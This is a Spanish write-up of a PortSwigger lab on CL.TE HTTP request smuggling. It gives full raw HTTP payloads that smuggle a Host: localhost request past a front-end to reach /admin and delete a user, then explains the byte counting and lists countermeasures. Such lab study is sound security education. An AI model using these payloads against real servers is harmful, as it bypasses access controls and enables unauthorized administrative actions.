

# Writeup: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability (PortSwigger)

- **Lab**: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
- **URL**: https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
- **Categoría**: HTTP Request Smuggling / CL.TE desync / Exploitation
- **Dificultad**: Practitioner

---

## 1. Objetivo

El front-end bloquea el acceso a `/admin`; hay que usar smuggling CL.TE para alcanzarlo desde el back-end y eliminar al usuario `carlos`.

Payload final (HTTP/1.1, Update-Content-Length desactivado, Send group in sequence single connection):

```http
POST / HTTP/1.1
Host: 0ae500ef03da672b82362928001e0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

### Insight central

**El `Content-Length` interno del request smuggleado no es para enviar datos — funciona como trituradora de bytes**. Cuando la segunda request llega al socket, sus headers se concatenan al smuggled request. El backend intenta parsearlos como headers del smuggled request si no hay body, produciendo "Duplicate header names are not allowed". Declarar un `Content-Length` hace que el backend lea esos bytes como body — desaparecen del parsing de headers y el smuggled request se procesa limpio. La cantidad exacta (10 en este caso) es arbitraria mientras absorba algunos bytes del inicio de la segunda request para romper el parseo de headers espurios.

---

## 2. Recon y resolución

### 2.1 Setup de Burp

1. Capturar un request cualquiera del lab, mandar al Repeater.
2. Cambiar método a `POST / HTTP/1.1`.
3. Inspector → Request Attributes → Protocol: **HTTP/1**.
4. Repeater settings → desmarcar "Update Content-Length".
5. Send group → modo **"Send group in sequence (single connection)"**.

### 2.2 Iteración 1: smuggled `GET /admin` sin `Host: localhost`

```http
POST / HTTP/1.1
Host: 0ae500ef03da672b82362928001e0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

Conteo de los 37 bytes: `0` (1) + `\r\n` (2) + `\r\n` (2) + `GET /admin HTTP/1.1` (19) + `\r\n` (2) + `X-Ignore: X` (11) = 37.

Resultado segunda response: **401 Unauthorized** con mensaje *"Admin interface only available to local users"*. El smuggling funciona — llegamos a `/admin` — pero el back-end restringe por `Host`.

### 2.3 Iteración 2: agregar `Host: localhost` (falla por duplicate headers)

```http
POST / HTTP/1.1
Host: 0ae500ef03da672b82362928001e0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```

Diferencia de byte count: `Host: localhost\r\n` = 17 bytes extras → `37 + 17 = 54`.

Resultado: **400 Bad Request** — `{"error":"Duplicate header names are not allowed"}`.

Diagnóstico: el smuggled request no tiene body declarado. Cuando la segunda request llega al socket, el backend concatena sus headers (`POST / HTTP/1.1`, `Host: <lab>`, `Content-Type`, etc.) al smuggled `GET /admin`. Como el smuggled request no tiene `Content-Length`, el backend los parsea como headers adicionales del `GET /admin`. `Host` aparece dos veces (localhost + el Host de la segunda request) → duplicate header → 400.

### 2.4 Iteración 3: `Content-Length` interno como trituradora de bytes

```http
POST / HTTP/1.1
Host: 0ae500ef03da672b82362928001e0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Conteo de los 116 bytes:

| Bytes | Contenido |
|-------|-----------|
| 1 | `0` |
| 2 | `\r\n` |
| 2 | `\r\n` |
| 19 | `GET /admin HTTP/1.1` |
| 2 | `\r\n` |
| 15 | `Host: localhost` |
| 2 | `\r\n` |
| 49 | `Content-Type: application/x-www-form-urlencoded` |
| 2 | `\r\n` |
| 18 | `Content-Length: 10` |
| 2 | `\r\n` |
| 2 | `\r\n` |
| **116** | **total** |

Los 2 bytes `x=` están después de los 116 que lee el front-end — no se forwardean al back-end.

Send group en sequence. Response 2 contiene el HTML del panel admin con la lista de usuarios:

```html
<h1>Users</h1>
<div>
    <span>wiener - </span>
    <a href="/admin/delete?username=wiener">Delete</a>
</div>
<div>
    <span>carlos - </span>
    <a href="/admin/delete?username=carlos">Delete</a>
</div>
```

El delete es un `GET /admin/delete?username=carlos` simple, sin CSRF token. Se puede smugglear directo sin necesidad de extraer estado adicional.

### 2.5 Iteración 4: delete `carlos`

```http
POST / HTTP/1.1
Host: 0ae500ef03da672b82362928001e0066.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

Cambio: `GET /admin HTTP/1.1` (19 bytes) → `GET /admin/delete?username=carlos HTTP/1.1` (42 bytes). Diferencia: +23 bytes → `116 + 23 = 139`.

Send group in sequence (single connection). Response 2:

```http
HTTP/1.1 302 Found
Location: /admin
Set-Cookie: session=...; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 0
```

302 a `/admin` con `Set-Cookie` nuevo. El back-end procesó el smuggled `GET /admin/delete` como request anónima fresca (sin sesión propia) y emitió una sesión nueva al "cliente fantasma" que cree estar viendo. El cliente real ignora ese cookie porque ya tiene su propia sesión. Lab solved.

---

## 3. Por qué funciona

### 3.1 Anatomía del exploit CL.TE con bypass de control de acceso

```
Cliente → Front-end (CL=139) → Back-end (TE=chunked), conexión TCP keep-alive
```

**Frontend (prioriza Content-Length)**:
- Lee 139 bytes del body.
- Forwardea headers + 139 bytes al backend.
- Considera la request completa.

**Backend (prioriza Transfer-Encoding: chunked)**:
- Recibe headers + body completo (139 bytes).
- Parsea chunked encoding: `0\r\n\r\n` → chunk size 0 → body terminado en byte 5.
- Responde a `POST /` con la home (200 OK).
- Bytes restantes en el socket (134 bytes: `GET /admin/delete?...\r\nHost: localhost\r\n...\r\n\r\n`) quedan como request pendiente.

**Cliente manda request 2** (idéntica). Frontend la forwardea.

**Backend procesa primero el smuggled prefix**:
```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

[10 bytes de body: 2 residuales de la outer body (`x=`) + 8 del inicio de la request 2 (`POST / H`)]
```

El backend:
1. Procesa `GET /admin/delete?username=carlos`.
2. `Host: localhost` → satisface la restricción de acceso.
3. `Content-Length: 10` → lee 10 bytes como body, absorbiendo parte de la request 2.
4. **El back-end ejecuta el delete y responde**. Esa response llega al cliente como "response 2".

### 3.2 Por qué `Content-Length` interno evita "Duplicate header names"

Sin `Content-Length` en el smuggled request:

```
Backend socket buffer:
GET /admin/delete?... HTTP/1.1\r\n
Host: localhost\r\n
POST / HTTP/1.1\r\n          ← headers de request 2 concatenados
Host: 0ae5....net\r\n        ← Host duplicado → 400
Content-Type: ...\r\n
...
```

El backend parsea `POST / HTTP/1.1`, `Host: 0ae5...`, etc. como headers del `GET /admin/delete`. Como no hay `Content-Length` que los delimite, se interpretan todos como headers. `Host` aparece dos veces → 400.

Con `Content-Length: 10` en el smuggled request:

```
Backend socket buffer (después que outer POST ya consumió 0\r\n\r\n al inicio):
GET /admin/delete?... HTTP/1.1\r\n
Host: localhost\r\n
Content-Type: application/x-www-form-urlencoded\r\n
Content-Length: 10\r\n
\r\n
x=                           ← 2 bytes residuales de la outer body
POST / H                     ← 8 bytes del inicio de la request 2 forwardeada
[resto de request 2: TTP/1.1\r\nHost: ...\r\n queda como request malformado huérfano]
```

El backend para de leer headers en `\r\n\r\n`, luego lee 10 bytes de body: `x=POST / H` (los primeros 2 vienen de la outer body, los 8 siguientes del inicio de la request 2). Los headers de la request 2 nunca se parsean como headers del smuggled request — son absorbidos como body. El `Host: localhost` es único, sin duplicado → request procesado correctamente.

**El valor exacto del `Content-Length` interno tiene margen de error grande**:

- Si declarás `Content-Length: 0`: el backend no absorbe nada → los headers de la request 2 se concatenan al smuggled como headers adicionales → reaparece "Duplicate header names" (lo que vimos en iteración 2).
- Si declarás `Content-Length: 10`: absorbe 10 bytes (`x=POST / H`). Suficiente para romper el parseo de headers espurios. Es el valor que usamos.
- Si declarás `Content-Length: 5000`: el backend espera 5000 bytes de body. La request 2 tiene ~250 bytes; el backend cuelga esperando los 4750 restantes → timeout o connection closed.

10 es de bajo riesgo en ambas dimensiones: chico para no causar timeouts, suficiente para absorber el inicio de los headers concatenados.

### 3.3 Diferencia entre detección CL.TE y bypass de front-end controls

| Aspecto | Lab detección | Lab bypass |
|---------|---------------|------------|
| Objetivo | Confirmar CL.TE (404 en path inventado) | Llegar a un recurso restringido |
| Contenido del smuggled | `GET /404` con header dummy | `GET /admin` con `Host: localhost` auténtico |
| Complejidad adicional | Ninguna | `Content-Length` interno para absorber headers espurios |
| Heurística de éxito | Status 404 vs 200 anómalo | Acceso al panel admin + delete de usuario |
| Misma mecánica base | Frontend CL, Backend TE, `0\r\n\r\n` como chunked terminator | Idéntica |

El salto de detección a explotación es un solo concepto nuevo: **el `Content-Length` del request smuggleado como mecanismo de absorción de bytes residuales**. Todo lo demás — setup de Burp, razonamiento keep-alive, chunked terminator, single connection — es idéntico a la fase de detección.

### 3.4 ¿Por qué `Host: localhost` funciona como bypass?

El front-end tiene una regla de firewall: `Host` que no sea el dominio público → bloquear. Esta regla se aplica en el front-end antes de forwardear al back-end.

Pero el smuggled request no pasa por el front-end. El back-end recibe bytes crudos del socket y parsea el `Host: localhost` directamente. La protección de acceso de `/admin` es chequear que `Host` sea `localhost` — una protección pensada para tráfico interno entre microservicios. El smuggled request bypassa el firewall del front-end y satisface la restricción interna del back-end.

Es una combinación de dos fallos:
1. **Smuggling** (desync de parsers) → bypass del firewall del front-end.
2. **Confianza en `Host: localhost`** como mecanismo de autenticación → el back-end asume que si el Host es localhost, la request viene de infraestructura interna confiable.

### 3.5 Diferencia entre CL.TE bypass y TE.CL bypass

Comparado con el [lab simétrico TE.CL](../bypass-front-end-controls-te-cl/writeup.md):

| Aspecto | CL.TE bypass | TE.CL bypass |
|---------|--------------|--------------|
| Frontend prioriza | Content-Length | Transfer-Encoding |
| Backend prioriza | Transfer-Encoding | Content-Length |
| Outer request | CL grande (139), TE chunked | CL chico (4), TE chunked + chunk size hex |
| Shape del body | `0\r\n\r\nGET /admin/...x=` | `87\r\nGET /admin/...x=\r\n0\r\n\r\n` |
| Byte frágil | `Content-Length` outer (139, decimal) | chunk size hex (`87`) |
| Recalcular tras cambiar URL | Sí (CL outer cambia) | Sí (chunk size cambia) |
| `Host: localhost` smuggled | Sí | Sí |
| `Content-Length` interno | CL=10 absorbe headers de req 2 | CL=200 absorbe headers de req 2 |
| Bloqueo de `/admin` | Por header check del back-end (401 "only local users") | Por path check del front-end (403 "Path /admin is blocked") |

Ambos exploits usan el mismo "truco" del Content-Length interno y `Host: localhost`. La diferencia operacional es la mecánica del outer body (chunked terminator vs chunk size declarado en hex). Conceptualmente equivalentes; en la práctica, CL.TE es menos frágil porque la aritmética decimal del CL outer es más fácil de re-contar que la aritmética hex del chunk size de TE.CL — un chunk size mal calculado es la fuente más común de "el payload ya no funciona después de modificarlo" en TE.CL.

Otra diferencia notable: en CL.TE el front-end no necesariamente bloquea `/admin` por path — dejó pasar el request y el back-end fue el que respondió 401 por Host. En TE.CL el front-end sí bloquea `/admin` antes de forwardear. Por eso en CL.TE la iteración 1 (sin `Host: localhost`) llegó al back-end y vimos el 401 con mensaje explícito; en TE.CL nunca se intentó `/admin` sin `Host: localhost` smuggleado porque el bypass ya estaba previsto desde el inicio.

### 3.6 Set-Cookie en response 2 como señal secundaria de smuggle exitoso

La response 2 al delete trae un `Set-Cookie: session=...; Secure; HttpOnly; SameSite=None` que el cliente real (Burp) ignora porque ya tiene su sesión. Ese Set-Cookie viene del back-end procesando el smuggled `GET /admin/delete` como request anónima fresca: el back-end no recibió la cookie del cliente real (esa cookie viajaba en los headers de la outer POST, que el back-end ya consumió como su propia request, no como la smuggled). Entonces emite una sesión nueva al "cliente fantasma" que cree estar viendo.

Esto importa por dos razones:

1. **Señal secundaria de éxito**: si la response 2 trae un `Set-Cookie` inesperado, es buen indicador de que el smuggled request fue procesado independientemente del contexto de cookies del cliente real. Útil cuando el response body no es diagnóstico (ej. 200 vacío o 302 sin cuerpo).
2. **Implicación de impacto**: el back-end trata al smuggled como anónimo. Cualquier acción que requiriera autenticación habría fallado — el bypass funciona acá porque `/admin` está protegido por `Host: localhost`, no por sesión. Si la app tuviera sesiones reales en `/admin`, el smuggle solo serviría para acciones que el back-end ejecuta sin auth. Es un techo natural al impacto del bug en aplicaciones con autenticación robusta.

Es una observación sobre arquitectura: una protección de path en el front-end + un check de `Host` en el back-end como única autorización para `/admin` es vulnerable a smuggling. La defensa estructural es autenticación basada en sesión/token validada en el back-end, no en assumed-internal headers como `Host: localhost`.

---

## 4. Resumen



Tres ideas:

1. **El `Content-Length` del request smuggleado no es para datos reales — es una trituradora de headers espurios**. Cuando la segunda request se concatena al smuggled prefix, sus headers (`POST / HTTP/1.1`, `Host: <lab>`, etc.) contaminan el parseo del smuggled request. Declarar un `Content-Length` hace que el backend los lea como body en lugar de como headers, eliminando el conflicto. Es una técnica operacional que aparece en casi todos los labs de smuggling de explotación, no solo en este.

2. **`Host: localhost` como bypass es el patrón más común en smuggling CL.TE de explotación**. Front-ends bloquean `/admin` para tráfico externo pero back-ends confían en `Host: localhost` como mecanismo de autenticación para tráfico interno. El smuggling cruza la frontera sin que el front-end vea el Host alternativo. La defensa correcta es autenticación real en el back-end, no confianza en Host headers.

3. **El salto de detección a explotación es mínimo en CL.TE**: mismo setup de Burp, mismo principio de `0\r\n\r\n` como chunked terminator, mismo single connection. La única adición es el `Content-Length` interno para manejar la contaminación de headers de la segunda request — un truco operacional más que un concepto nuevo.

---

## 5. Contramedidas

1. **HTTP/2 entre frontend y backend**: bodies framed binariamente, sin ambigüedad CL/TE. Cierra smuggling por construcción. Incluso si solo un lado (frontend→backend) es HTTP/2, el smuggling desaparece.
2. **Rechazar requests con CL y TE simultáneos en el frontend**: responder 400. RFC 9112 lo permite. Más seguro que normalizar/silenciar uno.
3. **No usar `Host` como mecanismo de autenticación**: el back-end debe autenticar requests a `/admin` con tokens/cookies/sessions, no confiar en que `Host: localhost` implica tráfico interno. Un proxy interno legítimo puede forwardear `Host` arbitrario si está mal configurado.
4. **Backend con parser HTTP estricto**: rechazar `Transfer-Encoding` con valores no estándar, headers duplicados, encodings obfuscados.
5. **Sin keep-alive entre frontend y backend**: cada request abre conexión nueva. Bytes smuggled no encuentran socket compartido. Costo: latencia + file descriptors.
6. **WAF con reglas de smuggling**: detectar `Transfer-Encoding: chunked` combinado con `Content-Length` en la misma request. Detectar `0\r\n\r\n` seguido de método HTTP en el body.
7. **Validación de `Host` header en el frontend antes de forwardear**: si el front-end valida que `Host` sea el dominio esperado (rechazando requests con `Host: localhost` o `Host: 127.0.0.1`), el bypass de este lab falla incluso si el smuggling persiste. Defensa-en-profundidad.
8. **Logging de requests a `/admin` con `Host` no esperado**: un `GET /admin` con `Host: localhost` que llega al back-end es señal de smuggling o configuración incorrecta del proxy. Alertar.
9. **Tests de regresión con smuggler en CI**: ejecutar suite de payloads conocidos contra staging pre-deploy.
10. **Connection: close en respuestas si se detecta discrepancia de longitud**: si el front-end detecta que forwardeó más bytes de los que el back-end reportó haber procesado, forzar cierre de conexión.

---

## 6. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability*. https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te
- PortSwigger Web Security Academy. (s.f.). *HTTP request smuggling*. https://portswigger.net/web-security/request-smuggling
- PortSwigger Research. (2019). *HTTP Desync Attacks: Request Smuggling Reborn* (James Kettle). https://portswigger.net/research/http-desync-attacks-request-smuggling-reborn
- IETF. (2022). *RFC 9112: HTTP/1.1*. https://datatracker.ietf.org/doc/html/rfc9112 (sección 6.3 Message Body Length)
- IETF. (2014). *RFC 7230: HTTP/1.1 Message Syntax and Routing*. https://datatracker.ietf.org/doc/html/rfc7230 (obsoleta pero aún citada en documentación)
- OWASP Foundation. (s.f.). *HTTP Request Smuggling*. https://owasp.org/www-community/attacks/HTTP_Request_Smuggling
- MITRE Corporation. (2024). *CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response Smuggling')*. https://cwe.mitre.org/data/definitions/444.html
- MITRE Corporation. (2024). *ATT&CK Technique T1190: Exploit Public-Facing Application*. https://attack.mitre.org/techniques/T1190/
- swisskyrepo. (s.f.). *PayloadsAllTheThings — Request Smuggling*. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Request%20Smuggling
- defparam. (s.f.). *smuggler — HTTP Request Smuggling detection tool* [Software]. GitHub. https://github.com/defparam/smuggler
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 17 (Attacking Application Architecture).
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-request-smuggling.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-request-smuggling.md)
- Writeup detección CL.TE: [`learning/portswigger/confirming-cl-te-via-differential-responses/writeup.md`](../confirming-cl-te-via-differential-responses/writeup.md)
- Writeup análogo TE.CL bypass: [`learning/portswigger/bypass-front-end-controls-te-cl/writeup.md`](../bypass-front-end-controls-te-cl/writeup.md)
